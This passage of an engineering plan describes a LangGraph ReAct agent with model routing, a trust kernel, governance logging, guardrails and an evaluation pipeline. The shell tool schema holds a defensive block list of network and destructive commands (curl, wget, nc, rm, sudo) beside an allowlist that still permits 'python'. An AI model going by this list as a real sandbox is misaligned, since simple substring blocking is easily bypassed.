    review_schema.py                     # ReviewReport, ReviewFinding, Certificate, Verdict
    signature.py                         # compute_signature(), verify_signature()

  prompts/                               # Prompt templates -- data, not code (H1)
    system_prompt.j2                     # Agent persona and behavioral instructions
    routing_policy.j2                    # Routing policy prose (human edits, LLM reads)
    input_guardrail.j2                   # Prompt injection detection condition (H3)
    output_guardrail.j2                  # PII/leakage detection condition (H3)
    CodeReviewer_system_prompt.j2        # Code review validator agent persona
    CodeReviewer_architecture_rules.j2   # Architecture validation rules
    CodeReviewer_review_submission.j2    # Review output formatting

  Dockerfile                             # Local Docker container for agent runtime

  agent/
    __init__.py
    # --- Orchestration Layer (LangGraph-specific, topology only) ---
    orchestration/
      __init__.py
      react_loop.py                      # StateGraph definition: nodes, edges, compilation (TOPOLOGY ONLY)
      state.py                           # LangGraph AgentState TypedDict (extends MessagesState)
    # --- Vertical Components (framework-agnostic domain logic, NO langgraph imports) ---
    components/
      __init__.py
      router.py                          # select_model(step_count, errors, cost, config) -> ModelProfile
      evaluator.py                       # classify_outcome(), parse_response(), check_continuation()
      schemas.py                         # Pydantic models: StepResult, TaskResult, ErrorRecord, EvalRecord
      routing_config.py                  # Pydantic model: RoutingConfig (domain-specific thresholds)
    # --- Horizontal Services (domain-agnostic infrastructure, NO langgraph imports) ---
    services/
      __init__.py
      prompt_service.py                  # Jinja2 template rendering + render logging (H1)
      llm_config.py                      # ModelProfile registry, ChatLiteLLM factory, tier constants (H2)
      guardrails.py                      # Input/output validation via LLM-as-judge (H3)
      eval_capture.py                    # Record AI input/output with target tags (H5)
      observability.py                   # Per-concern structured logging setup (H4)
      base_config.py                     # Pydantic models: AgentConfig, ModelProfile (generic config)
      governance/                        # Governance services -- four-pillar explainability
        __init__.py
        black_box.py                     # BlackBoxRecorder: immutable execution recording
        phase_logger.py                  # PhaseLogger: decision + reasoning logs
        agent_facts_registry.py          # AgentFactsRegistry: identity card management
        guardrail_validator.py           # GuardRailValidator: declarative constraint specs
      tools/                             # Tool infrastructure -- stateless, domain-agnostic
        __init__.py
        registry.py                      # Tool dispatch: name -> validated executor (with cacheable flag)
        shell.py                         # ShellToolInput/Output + execute (command allowlist, stateless)
        file_io.py                       # FileIOInput/Output + execute (path-sandboxed, stateless)
        web_search.py                    # WebSearchInput/Output + execute (stub)

  utils/                                 # Adapters + analysis (horizontal)
    __init__.py
    cloud_providers/                     # Cloud-specific adapters implementing trust kernel ports
      __init__.py                        # get_provider() factory
      config.py                          # TrustProviderSettings (pydantic-settings, TRUST_* env)
      aws_identity.py                    # AWSIdentityProvider (boto3 STS + IAM)
      aws_policy.py                      # AWSPolicyProvider (boto3 IAM)
      aws_credentials.py                 # AWSCredentialProvider (boto3 STS assume_role)
      local_provider.py                  # Local* providers (in-memory fakes for testing)
    code_analysis.py                     # AST-based dependency rule checker

  meta/                                  # Separate package -- Meta-optimization + Evaluation (Phase 3-4)
    __init__.py
    optimizer.py                         # Meta-optimization loop: tunes RoutingConfig thresholds
    analysis.py                          # Analytics: reads JSONL + LangSmith eval scores, computes metrics
    judge.py                             # LLM-as-judge evaluator: scores agent outputs against taxonomy
    judge_prompt.j2                      # Judge scoring prompt with taxonomy reference + few-shot examples
    drift.py                             # Score drift detection: baseline comparison, re-calibration triggers
    run_eval.py                          # Automated pipeline: golden set -> agent -> judge -> report
    discovery/                           # Failure discovery artifacts (populated during Phase 3)
      failure_taxonomy.json              # Discovered failure categories with definitions
      labeled_examples/                  # Annotated failure instances for judge calibration

  cache/                                 # Governance artifacts (runtime-generated, gitignored)
    black_box_recordings/                # {workflow_id}/trace.jsonl
    phase_logs/                          # {workflow_id}/decisions.jsonl
    agent_facts/                         # {agent_id}.json + {agent_id}_audit.jsonl

  tests/                                 # Test suite
    __init__.py
    conftest.py
    architecture/                        # Dependency rule enforcement
      __init__.py
      test_dependency_rules.py           # Verify no forbidden imports
      test_code_reviewer_placement.py    # Verify code reviewer in correct layer
    trust/                               # Trust kernel unit tests
      __init__.py
      test_cloud_identity.py
      test_enums.py
      test_exceptions.py
      test_init.py
      test_models.py
      test_plan_type_contracts.py
      test_protocols.py
      test_review_schema.py
      test_signature.py
    utils/                               # Cloud provider adapter tests
      __init__.py
      cloud_providers/
        __init__.py
        test_aws_providers.py
        test_config.py
        test_factory.py
        test_local_provider.py
      test_code_analysis.py

  logging.json                           # Per-concern log routing configuration (H4)
  cli.py                                 # Entry point: python -m agent.cli "task"
  pyproject.toml                         # Dependencies
  requirements.txt
  README.md
```

---

## Phase 1: Foundation -- Custom StateGraph with Single Model

Goal: A working ReAct agent built as a LangGraph custom `StateGraph` with the four-layer architecture in place from day one. Single hardcoded model (default from config), trivial routing and evaluation nodes. Full observability: LangSmith tracing + per-concern log files. Trust kernel scaffolded with architecture tests enforcing purity. Minimal governance services (AgentFactsRegistry + BlackBoxRecorder stub).

### 1.1 Project scaffolding and dependencies

Create `agent/pyproject.toml` with:
- `langgraph` -- orchestration, state management, checkpointing
- `langchain-litellm` -- `ChatLiteLLM` LangChain-compatible model wrapper
- `litellm` -- provider-agnostic LLM calls (transitive dep of langchain-litellm, pin explicitly)
- `pydantic` -- schema validation, config, tool schemas, security validators, trust kernel models
- `pydantic-settings` -- environment-based configuration for `TrustProviderSettings`
- `pydantic-ai` -- deferred to Phase 2; structured LLM output via pydantic-ai.Agent added when evaluator needs typed parsing
- `langsmith` -- tracing SDK (auto-instrumented by LangGraph, also usable standalone)
- `jinja2` -- prompt template rendering
- `rich` -- terminal output formatting

Create `Dockerfile` for local containerized execution.

Set up LangSmith env vars: `LANGCHAIN_TRACING_V2=true`, `LANGCHAIN_API_KEY`, `LANGCHAIN_PROJECT`.

### 1.2 Trust kernel scaffold

The `trust/` package already exists with all seven modules implemented. Phase 1 validates that it satisfies the kernel purity criteria:

- Architecture tests in `tests/architecture/test_dependency_rules.py` verify that `trust/` contains no imports from `langgraph`, `langchain`, `boto3`, `litellm`, `utils`, `services`, `components`, or `orchestration`.
- `utils/code_analysis.py` provides AST-based checking that can be run as a pre-commit hook.
- `tests/trust/` contains unit tests for all kernel modules (models, enums, exceptions, protocols, cloud_identity, signature, review_schema).

### 1.3 Schemas and state

**`components/schemas.py`** -- framework-agnostic Pydantic models (NO langgraph/langchain imports):

```python
class ErrorRecord(BaseModel):
    step: int
    error_type: str                      # "retryable" | "model_error" | "tool_error" | "terminal"
    error_code: int | None = None        # HTTP status code if applicable (429, 503)
    message: str
    model: str
    timestamp: float

class StepResult(BaseModel):
    step_id: int
    action: str                         # "tool_call", "think", "answer"
    model_used: str
    routing_reason: str
    input_tokens: int
    output_tokens: int
    cost_usd: float
    latency_ms: float
    tool_name: str | None = None
    tool_input: dict | None = None
    tool_output: str | None = None
    outcome: str                        # "success", "failure", "error"
    error_type: str | None = None       # set on failure: "retryable" | "model_error" | "tool_error" | "terminal"
    reasoning: str

class EvalRecord(BaseModel):
    """Formalized JSONL schema for eval_capture. All eval log records follow this structure."""
    schema_version: int = 1
    timestamp: datetime
    task_id: str
    user_id: str
    step: int
    target: str                          # "call_llm" | "evaluate" | "tool_exec" | "guardrail"
    model: str | None = None
    ai_input: dict
    ai_response: dict | str
    tokens_in: int | None = None
    tokens_out: int | None = None
    cost_usd: float | None = None
    latency_ms: float | None = None
    error_type: str | None = None

class TaskResult(BaseModel):
    task_id: str
    task_input: str
    steps: list[StepResult]
    final_answer: str | None = None
    total_cost_usd: float
    total_latency_ms: float
    total_steps: int
    status: str                         # "completed", "failed", "budget_exceeded"
```

`ErrorRecord` enables structured error classification: the `evaluate_node` creates one on every failure, and the `route_node` reads `last_error_type` from state to decide between retry-with-backoff (for `retryable`) and escalate-to-capable-model (for `model_error`).

`EvalRecord` formalizes the JSONL schema for `eval_capture`. Downstream consumers (`meta/analysis.py`, `meta/judge.py`) import `EvalRecord` and parse with `EvalRecord.model_validate_json(line)`. Schema changes increment `schema_version`; analysis code handles both old and new versions.

**`orchestration/state.py`** -- LangGraph state schema (the only file in `orchestration/` that imports from langgraph). See [LangGraph State Schema](#langgraph-state-schema) above for the full schema with `Annotated` reducers, governance correlation fields, and field documentation.

### 1.4 Configuration (split by layer)

**`services/base_config.py`** -- generic configuration consumed by any layer. NO langgraph imports:

```python
class ModelProfile(BaseModel):
    name: str
    litellm_id: str
    tier: str                           # "fast" | "capable"
    context_window: int
    cost_per_1k_input: float
    cost_per_1k_output: float
    median_latency_ms: float = 1000

class AgentConfig(BaseModel):
    max_steps: int = 20
    max_cost_usd: float = 1.0
    default_model: str = "gpt-4o-mini"
    models: list[ModelProfile] = []
```

**`components/routing_config.py`** -- domain-specific routing thresholds. NO langgraph imports. In Phase 1, these fields exist but the `route` node always returns `default_model`:

```python
class RoutingConfig(BaseModel):
    default_model: str = "gpt-4o-mini"
    escalate_after_failures: int = 2
    max_escalations: int = 3
    budget_downgrade_threshold: float = 0.8
```

### 1.5 Tools: Horizontal services with Pydantic schemas

Tools are stateless, domain-agnostic infrastructure living in `services/tools/`. Each tool is a pure function: validated input in, validated output out. Tools have no knowledge of `AgentState`, LangGraph, or the orchestration layer.

**Pydantic schemas** define the input/output contract for each tool. Security validators (command allowlist, path sandboxing) are enforced at the schema level via Pydantic `@validator` -- these are deterministic checks that run before execution and cannot be bypassed via prompt injection:

```python
ALLOWED_COMMANDS = {"ls", "cat", "head", "tail", "grep", "find", "python", "wc"}
BLOCKED_PATTERNS = {"rm ", "curl ", "wget ", "nc ", "chmod ", "chown ", "sudo "}

class ShellToolInput(BaseModel):
    command: str = Field(description="Shell command to execute")
    timeout: int = Field(default=30, ge=1, le=60)

    @validator("command")
    def validate_command(cls, v):
        cmd_prefix = v.strip().split()[0]
        if cmd_prefix not in ALLOWED_COMMANDS:
            raise ValueError(f"Command '{cmd_prefix}' not in allowlist")
        for pattern in BLOCKED_PATTERNS:
            if pattern in v:
                raise ValueError(f"Blocked pattern '{pattern.strip()}' detected")
        return v

class ShellToolOutput(BaseModel):
    stdout: str
    stderr: str
    exit_code: int
```

```python
class FileIOInput(BaseModel):
    path: str
    operation: str                       # "read" | "write"
    content: str | None = None           # required for write

    @validator("path")
    def validate_path(cls, v):
        resolved = Path(v).resolve()
        workspace = Path(os.environ.get("WORKSPACE_DIR", "/workspace"))
        if not resolved.is_relative_to(workspace):
            raise ValueError(f"Path {v} is outside workspace boundary")
        return str(resolved)
```

**`services/tools/registry.py`** maps tool names to their validated executors. Each tool registers a `cacheable` flag:

```python
@dataclass
class ToolDefinition:
    executor: Callable
    schema: type[BaseModel]
    cacheable: bool = False              # only True for idempotent read operations

class ToolRegistry:
    def __init__(self, tools: dict[str, ToolDefinition]):
        self._tools = tools

    def execute(self, tool_name: str, tool_args: dict) -> str:
        defn = self._tools[tool_name]
        return defn.executor(tool_args)

    def is_cacheable(self, tool_name: str) -> bool:
        return self._tools[tool_name].cacheable

    def get_schemas(self) -> list[dict]:
        """Returns tool schemas for LLM bind_tools()."""
        ...
```

Implement 2-3 example tools: shell (cacheable for read-only commands), file_io (cacheable for reads), web_search stub.

### 1.6 Custom StateGraph (`orchestration/react_loop.py`)

The core LangGraph graph. This file defines **topology only** (Rule O1) -- nodes and edges. Every node function is a thin wrapper that delegates to `components/` or `services/`. In Phase 1, `route_node` is trivial (always returns default model), `evaluate_node` is trivial (always returns "success"):

```python
from langgraph.graph import StateGraph, START, END

builder = StateGraph(AgentState)

builder.add_node("guard_input", guard_input_node)
builder.add_node("route", route_node)
builder.add_node("call_llm", call_llm_node)
builder.add_node("execute_tool", execute_tool_node)
builder.add_node("evaluate", evaluate_node)

builder.add_edge(START, "guard_input")
builder.add_edge("guard_input", "route")
builder.add_edge("route", "call_llm")
builder.add_conditional_edges("call_llm", parse_response,
    {"tool_call": "execute_tool", "final_answer": "evaluate", "budget_exceeded": END})
builder.add_edge("execute_tool", "evaluate")
builder.add_conditional_edges("evaluate", should_continue,
    {"continue": "route", "done": END})

graph = builder.compile()
```

**Node wrappers** -- each delegates to framework-agnostic logic:

- **`guard_input_node`**: Calls `services/guardrails.is_acceptable()` with the user's input. On rejection, raises `InputGuardrailException` which halts the graph. Calls `services/eval_capture.record()` with target `"guardrail"`. In Phase 1, also calls `services/governance/agent_facts_registry.verify()` to set `agent_facts_verified` in state and emits a `TASK_STARTED` event to BlackBox. Only runs guardrail check on the first iteration (skipped on subsequent loop iterations via a `step_count > 0` check).
- **`route_node`**: Calls `components/router.select_model()`. Checks `backoff_until` -- if set and in the future, waits or returns early. Writes `selected_model`, `routing_reason`, and appends to `model_history`. Logs a `Decision` to PhaseLogger with routing rationale.
- **`call_llm_node`**: Calls `services/prompt_service.render_prompt()` to build system prompt from `.j2` templates. Calls `services/llm_config.invoke()` with the selected model. Calls `services/eval_capture.record()` with target `"call_llm"`. Emits `STEP_EXECUTED` to BlackBox. Appends AIMessage and updates token/cost counters.
- **`execute_tool_node`**: Checks `tool_cache` for cache hit (if tool is cacheable). On miss, calls `services/tools/registry.execute()` with the tool name and args. Updates `tool_cache` for cacheable tools. Emits `TOOL_CALLED` to BlackBox. Appends ToolMessage to state.
- **`evaluate_node`**: Calls `components/evaluator.classify_outcome()` and `build_step_result()`. Classifies error type (`retryable`, `model_error`, `tool_error`, `terminal`) and sets `last_error_type`. On retryable errors (HTTP 429/503), sets `backoff_until`. Calls `services/eval_capture.record()` with target `"evaluate"`. Logs a `PhaseOutcome` to PhaseLogger with evaluation rationale.
- **`parse_response`**: Delegates to `components/evaluator.parse_llm_response()` -- inspects AIMessage for tool calls vs final answer vs budget exceeded.
- **`should_continue`**: Delegates to `components/evaluator.check_continuation()` -- checks step count, budget, stall detection, terminal errors.

### 1.7 Governance services scaffold

**`services/governance/agent_facts_registry.py`**: In-memory registry backed by JSON files. Implements `register()`, `verify()`, `get()`, `suspend()`, `restore()`, `audit_trail()`. Uses `trust.signature.compute_signature()` and `trust.signature.verify_signature()` for identity integrity. Uses `LocalIdentityProvider` for testing; AWS adapters deferred to Phase 3.

**`services/governance/black_box.py`**: Stub `BlackBoxRecorder` writing JSONL to `cache/black_box_recordings/{workflow_id}/trace.jsonl`. Records `TraceEvent` objects with chained integrity hashes. Full `export()` and `replay()` methods deferred to Phase 2.

### 1.8 Observability, eval capture, CLI, and logger

**Dual observability (H4)**:

LangSmith tracing is automatic -- LangGraph instruments every node transition. Additionally, configure per-concern structured log files via `logging.json`:

```json
{
    "loggers": {
        "services.prompt_service":  { "handlers": ["prompts"],  "propagate": false },
        "services.guardrails":      { "handlers": ["guards"],   "propagate": false },
        "services.eval_capture":    { "handlers": ["evals"],    "propagate": false },
        "services.tools":           { "handlers": ["tools"],    "propagate": false },
        "components.router":        { "handlers": ["routing"],  "propagate": false },
        "services.governance.black_box":     { "handlers": ["black_box"],  "propagate": false },
        "services.governance.phase_logger":  { "handlers": ["phases"],     "propagate": false },
        "services.governance.agent_facts":   { "handlers": ["identity"],   "propagate": false }
    }
}
```

This produces separate log files: `prompts.log`, `guards.log`, `evals.log`, `tools.log`, `routing.log`, `black_box.log`, `phases.log`, `identity.log`.

**Eval capture service (H5)** -- `services/eval_capture.py`:

Every LLM call, tool execution, and guardrail check records its input/output as a formalized `EvalRecord`. The `target` tag identifies the pipeline stage; `user_id` and `task_id` enable per-user analysis and data isolation:

```python
async def record(target: str, ai_input: dict, ai_response: Any,
                 config: RunnableConfig, step: int = 0,
                 model: str | None = None, tokens_in: int | None = None,
                 tokens_out: int | None = None, cost_usd: float | None = None,
                 latency_ms: float | None = None) -> None:
    record = EvalRecord(
        schema_version=1,
        timestamp=datetime.utcnow(),
        task_id=config["configurable"].get("task_id", ""),
        user_id=config["configurable"].get("user_id", "anonymous"),
        step=step,
        target=target,
        model=model,
        ai_input=ai_input,
        ai_response=ai_response,
        tokens_in=tokens_in,
        tokens_out=tokens_out,
        cost_usd=cost_usd,
        latency_ms=latency_ms,
    )
    logger.info("AI Response", extra=record.model_dump())
```

**CLI**: `python -m agent.cli "What is the capital of France?"`

**Logger**: Append-only JSONL from `state["step_results"]` at graph END. Summary TSV for human overview.

---

## Phase 2: Per-Step Model Routing

Goal: The `route` node becomes a real router. It reads state (step count, errors, budget) and `RoutingConfig` to select the optimal model for each step. Governance services mature: PhaseLogger wired to routing decisions, GuardRailValidator replaces ad-hoc scanning.

### 2.1 Routing policy (prompt templates)

Two Jinja2 templates in `prompts/`, rendered via `PromptService` and injected into the LLM system prompt:

**`prompts/system_prompt.j2`** -- agent persona and behavioral instructions:

```jinja2
You are a ReAct agent that solves tasks by reasoning step-by-step and using tools.
{{ additional_instructions }}
```

**`prompts/routing_policy.j2`** -- human-editable routing policy:

```jinja2
# Routing Policy

## Model Selection
- Use capable-tier models for planning and decomposition steps (steps 1-2).
- Use fast-tier models for simple tool calls (formatting queries, reading files).
- Use capable-tier models for final answer synthesis.

## Error Handling
- If a step fails, escalate to a capable-tier model.
- After {{ escalate_after_failures }} consecutive failures, always escalate regardless of step type.
- Never exceed {{ max_escalations }} escalations per task.

## Budget
- When budget is more than {{ budget_downgrade_pct }}% spent, downgrade to fast-tier models.
- Never exceed the max cost limit.
```

### 2.2 Route node implementation (`components/router.py` + `orchestration/react_loop.py`)

The framework-agnostic routing logic lives in `components/router.py`. It now receives `last_error_type` and `model_history` to make smarter decisions -- retryable errors (HTTP 429/503) trigger backoff on the same model rather than escalation, while `model_error` triggers escalation to a capable-tier model:

```python
def select_model(
    step_count: int,
    consecutive_errors: int,
    last_error_type: str,
    total_cost_usd: float,
    model_history: list[dict],
    agent_config: AgentConfig,
    routing_config: RoutingConfig,
) -> tuple[ModelProfile, str]:
    """Returns (selected_model, reason). No LangGraph imports."""
    ...
```

The `route_node` in `orchestration/react_loop.py` is a thin wrapper. It checks `backoff_until`, calls `select_model()`, logs a `Decision` to PhaseLogger with the routing rationale and alternatives considered, and writes `selected_model` + `routing_reason` + `model_history` to state.

### 2.3 Evaluate node with real tracking

The `evaluate_node` becomes meaningful. It delegates to `components/evaluator.py` and records via `services/eval_capture.py`. Error classification determines how `route_node` reacts on the next iteration. Logs a `PhaseOutcome` to PhaseLogger with the evaluation reasoning.

### 2.4 Two layers of routing

- **Deterministic (Python)**: The `route` node applies `RoutingConfig` thresholds via `components/router.select_model()`. This is fast, predictable, and auditable.
- **Advisory (prose)**: `routing_policy.j2` is rendered via `PromptService` into the LLM's system prompt, so the LLM also reasons about model selection. This handles edge cases that heuristics miss.

### 2.5 Tool result caching

The `execute_tool_node` checks `AgentState.tool_cache` before dispatching to the registry. Only tools registered with `cacheable=True` are cached. Cache keys are `f"{tool_name}:{md5(json.dumps(args, sort_keys=True))}"`. The cache persists across loop iterations within a single task but is not shared across tasks.

### 2.6 Output guardrail

After `call_llm_node`, the LLM's response is scanned for information leakage. In Phase 2, this is implemented as an inline check within `call_llm_node`. The output guardrail checks for PII patterns, API key patterns, system prompt leakage, and exfiltration attempts. On detection, the response is sanitized or blocked and logged to `guards.log`.

### 2.7 PhaseLogger wiring

`PhaseLogger` is fully wired to `route_node` (logs model selection `Decision` with alternatives and rationale) and `evaluate_node` (logs outcome `Decision` with error classification reasoning). Decision records are stored in `cache/phase_logs/{workflow_id}/decisions.jsonl`.

### 2.8 GuardRailValidator

`GuardRailValidator` with `BuiltInValidators` replaces the ad-hoc regex scanning in the output guardrail. Declarative `GuardRail` specs make validation auditable: `get_validation_trace()` returns exactly which checks ran and their results.

---

## Phase 3: Checkpointing, Evaluation Pipeline, and Analysis

Goal: Durable execution with rollback, LangSmith-powered evaluation pipeline, cost/quality analysis, AWS trust adapter integration, and BlackBox export for compliance.

### 3.1 Checkpointing and rollback

Enable LangGraph's built-in checkpointing:

```python
from langgraph.checkpoint.sqlite import SqliteSaver

checkpointer = SqliteSaver.from_conn_string("checkpoints.db")
graph = builder.compile(checkpointer=checkpointer)
```

Every node transition is automatically persisted. For risky tools (side effects), add `interrupt_before=["execute_tool"]` to pause before execution. If the tool fails, resume from the pre-tool checkpoint.

Track rollback frequency per model tier in `step_results` -- high rollback rate for a tier signals mis-routing.

### 3.2 Evaluation pipeline

The evaluation pipeline follows a discovery-first methodology: observe the agent, discover failure modes from data, build a taxonomy, then construct the judge. Four stages:

#### 3.2.1 Data collection (formalized EvalRecord schema)

Every node wrapper records via `eval_capture.record()` using the `EvalRecord` Pydantic model (Phase 1.3). Schema changes increment `schema_version`; `meta/analysis.py` handles both old and new versions.

#### 3.2.2 Failure discovery (observe -> taxonomy -> label)

Before building automated evaluation, observe the agent in action to discover what actually goes wrong. This prevents committing to a failure taxonomy that misses routing-specific failure modes unique to this architecture.

**Step 1: Sample query design.** Create 50 test queries in 5 difficulty buckets (trivial, simple tool use, multi-step, reasoning, adversarial).

**Step 2: Observation.** Run all 50 queries. Read every log file. For each failure, write a raw observation.

**Step 3: Taxonomy construction.** Cluster failures by root cause. Document in `meta/discovery/failure_taxonomy.json`.

**Step 4: Labeling.** Manually annotate 50-100 failure instances. These become the calibration dataset for the LLM judge.

#### 3.2.3 LLM judge (`meta/judge.py`)

An offline LLM-as-judge evaluator that scores agent outputs against the discovered failure taxonomy. Calibration targets: Spearman correlation >= 0.80, Cohen's kappa > 0.8.

#### 3.2.4 Automated scoring pipeline (`meta/run_eval.py`)

End-to-end: golden set -> agent -> judge -> report.

### 3.3 Results analysis

Analysis draws from per-concern log files (via `logging.json`), governance artifacts (BlackBox traces, PhaseLogger decisions, validation traces), and the structured logger.

### 3.4 Production hardening

**Per-user budget enforcement**, **retry/backoff logic** (retryable vs model_error vs tool_error vs terminal), **sandbox-as-tool architecture** (E2B/Modal/gVisor for production tool execution).

### 3.5 AWS trust adapters

Integrate `AWSIdentityProvider`, `AWSPolicyProvider`, and `AWSCredentialProvider` behind `TrustProviderSettings`. These implement the trust kernel's `IdentityProvider`, `PolicyProvider`, and `CredentialProvider` protocols via boto3 STS + IAM. Selected via `TRUST_PROVIDER=aws` environment variable.

### 3.6 BlackBox export for compliance

Full `BlackBoxRecorder.export()` and `replay()` methods. Compliance audit export produces structured JSON with chained integrity hashes verifiable by `trust.signature`. The `meta/judge.py` consumes BlackBox traces as evidence when scoring agent outputs -- the judge can examine the full execution timeline, not just the final answer.

---

## Phase 4: Meta-Optimization and Fallback Evaluation

Goal: The agent improves its own routing by analyzing past performance. CodeReviewer agent produces structured `ReviewReport` output. Drift detection extended to governance artifacts. Also evaluate whether LangGraph is still earning its keep.

### 4.1 Analytics engine (`meta/analysis.py`)

The `meta/` package is a separate orchestration layer that operates offline on logged data. Reads JSONL logs, per-concern log files, governance artifacts, and LangSmith evaluation results to compute success rate by model tier, cost per successful step, unnecessary escalation rate, and failure rate before escalation.

### 4.2 Meta-optimizer (`meta/optimizer.py`)

Tunes `components/routing_config.py` thresholds (numeric data), not `.j2` templates (human intent). Runs benchmark tasks from LangSmith evaluation datasets with proposed configs and compares against baseline.

### 4.3 Production drift detection (`meta/drift.py`)

Two-level drift detection:

**Level 1: Agent performance drift (weekly).** Establish baseline score distributions from golden set runs. Sample production runs, score with LLM judge, compare using 2-sigma threshold.

**Level 2: Judge calibration drift (monthly).** Re-score the labeled calibration set. If Cohen's kappa drops below 0.75, the judge prompt needs recalibration.

**Level 3: Governance artifact drift.** Periodic re-verification of all registered AgentFacts signatures via `AgentFactsRegistry.verify_all()`. Detects tampered identity cards or stale registrations. Agents with invalid signatures are flagged for investigation.

### 4.4 CodeReviewer agent

A specialized agent that produces structured `ReviewReport` output (from `trust/review_schema.py`) using the [CodeReviewer_system_prompt.j2](prompts/CodeReviewer_system_prompt.j2) and [CodeReviewer_architecture_rules.j2](prompts/CodeReviewer_architecture_rules.j2) prompts. Validates architecture compliance (dependency rules, kernel purity, layer placement) and produces dimension-by-dimension results with certificates.

### 4.5 Feasibility gate: LangGraph fallback to Pydantic AI

At the end of Phase 4, evaluate whether LangGraph is earning its complexity cost:

**Measurable criteria for keeping LangGraph:**
- Checkpointing was invoked in >10% of production runs (rollback from failed tool execution or stall recovery)
- Rollback saved >5 minutes of re-execution time per 100 tasks
- Auto-tracing surfaced >3 debugging insights during development that manual `@traceable` would have missed

**If LangGraph does not pass the gate, the fallback is:**

| LangGraph Component | Pydantic AI Replacement |
| --- | --- |
| `StateGraph` with nodes | Plain `while` loop calling the same node functions in sequence |
| `AgentState` TypedDict | Same fields in a Pydantic `BaseModel` passed as a dict |
| `SqliteSaver` checkpointing | Serialize state to JSON before risky steps (~50 lines) |
| `interrupt_before` for rollback | `try/except` around tool execution, restore from saved state |
| LangSmith auto-tracing | `@langsmith.traceable` decorators on each function (still works) |
| `ChatLiteLLM` | Raw `litellm.completion()` -- same LiteLLM, different wrapper |
| `PromptService` | No change -- Jinja2 rendering works without any framework |
| `eval_capture` | No change -- structured logging works without any framework |

This fallback is viable because:
1. `trust/` has no framework imports -- pure types, protocols, crypto
2. `components/` has no LangGraph imports -- `schemas.py`, `routing_config.py`, `router.py`, `evaluator.py` are all framework-agnostic
3. `services/` has no LangGraph imports (except `llm_config.py` which wraps `ChatLiteLLM`)
4. `services/governance/` has no framework imports -- BlackBox, PhaseLogger, AgentFactsRegistry, GuardRailValidator are plain Python
5. Node functions in `orchestration/` are thin wrappers -- the logic they call is already framework-agnostic
6. LangSmith works independently of LangGraph
7. `PromptService` and `eval_capture` are plain Python -- they work in any context

---

## Key Design Principles

1. **Composable layering**: The system is organized as a four-layer grid -- trust kernel (pure types/ports/crypto), horizontal services (infrastructure), vertical components (domain logic), orchestration (topology). Dependencies flow downward only. This extends the [STYLE_GUIDE_LAYERING.md](docs/STYLE_GUIDE_LAYERING.md) architecture with the trust foundation per [FOUR_LAYER_ARCHITECTURE.md](docs/FOUR_LAYER_ARCHITECTURE.md).

2. **Framework as a wrapper, not a dependency**: LangGraph orchestrates; domain logic (`components/router.py`, `components/evaluator.py`), infrastructure (`services/`), and the trust kernel (`trust/`) are framework-agnostic. This keeps the Phase 4 fallback viable.

3. **Single metric focus**: Phase 1: task completion. Phase 2: cost reduction at same quality. Phase 3: routing accuracy. Phase 4: automated threshold improvement.

4. **Simplicity criterion**: From autoresearch's `program.md` -- "all else being equal, simpler is better." Don't add routing complexity unless it measurably improves cost/quality tradeoff.

5. **Fixed evaluation**: LangSmith benchmark datasets are sacred (like `prepare.py`); the `RoutingConfig` thresholds are what gets optimized (like `train.py`).

6. **Human writes intent, code holds data**: `.j2` prompt templates are the human's lever for policy. `routing_config.py` holds the numbers. The meta-optimizer tunes the numbers within the bounds the human's policy defines.

7. **Every LLM call records eval data**: The `eval_capture` horizontal service records every AI input/output pair with a `target` tag identifying the pipeline stage (H5). This creates a complete dataset for offline evaluation, fine-tuning, and regression testing.

8. **Dual observability**: Per-concern structured log files (via `logging.json`) + LangSmith cloud tracing (H4). Separate log streams for prompts, eval data, tool calls, routing decisions, and governance artifacts. LangSmith provides end-to-end trace visualization.

9. **Two layers of routing**: Deterministic (Python heuristics in `components/router.py`) + advisory (prose policy in `.j2` templates rendered into LLM system prompt). The Python layer is fast and auditable; the prose layer handles nuance.

10. **Never stop logging**: Every step, every model choice, every cost -- LangSmith traces + per-concern log files + JSONL logs + governance artifacts. This is how we know if things are improving.

11. **Defense in depth**: Three security layers -- input guardrails (LLM-as-judge, H3), tool execution gates (deterministic Pydantic validators), output guardrails (PII/leakage scanning). No single layer is sufficient; all three are required for production-external deployment. The input guardrail catches adversarial intent; the tool validators enforce hard boundaries; the output guardrail prevents information leakage.

12. **Structured error classification**: Errors are typed (`retryable`, `model_error`, `tool_error`, `terminal`), not just counted. The route node uses error type to decide between retry-with-backoff (for transient failures like HTTP 429) and escalate-to-capable-model (for reasoning failures). This prevents wasting budget on escalation when the correct response is a brief wait.

13. **Observe before you formalize**: The evaluation pipeline follows a discovery-first methodology: run sample queries, observe failures, construct a taxonomy from data, then build the LLM judge. Do not pre-commit to failure categories before observing the agent. Routing-specific failure modes (wrong-tier selection, budget cliff, cross-model inconsistency) will not appear in standard agent failure literature -- they must be discovered from this agent's behavior.

14. **Trust as a kernel, not a feature**: Identity, policy, and credential types live in a pure kernel (`agent/trust/`) with zero framework dependencies. Cloud SDKs (boto3) live in adapters (`utils/cloud_providers/`). Swapping AWS for another provider is an adapter change; the kernel never changes. This follows the DDD Shared Kernel pattern and aligns with Microsoft Agent Governance Toolkit's separation of identity models from policy engine.

15. **Four pillars of explainability**: Every production run produces Recording (what happened -- BlackBox), Identity (who acted -- AgentFacts), Validation (what was checked -- GuardRailValidator), and Reasoning (why -- PhaseLogger) artifacts correlated by `workflow_id`. Missing any pillar is a governance gap.

16. **Correlation over aggregation**: `workflow_id`, `task_id`, `user_id`, and `registered_agent_id` flow through `RunnableConfig` and `AgentState` so BlackBox recordings, PhaseLogger decisions, AgentFacts audit trails, and EvalRecords can be joined post-hoc for forensic analysis.

17. **Architecture enforced by tests**: Dependency rules (kernel purity, forbidden imports) are enforced by [agent/utils/code_analysis.py](utils/code_analysis.py) (AST-based checker) plus tests in [agent/tests/architecture/](tests/architecture/), not by convention alone. This prevents architectural erosion as the codebase grows.
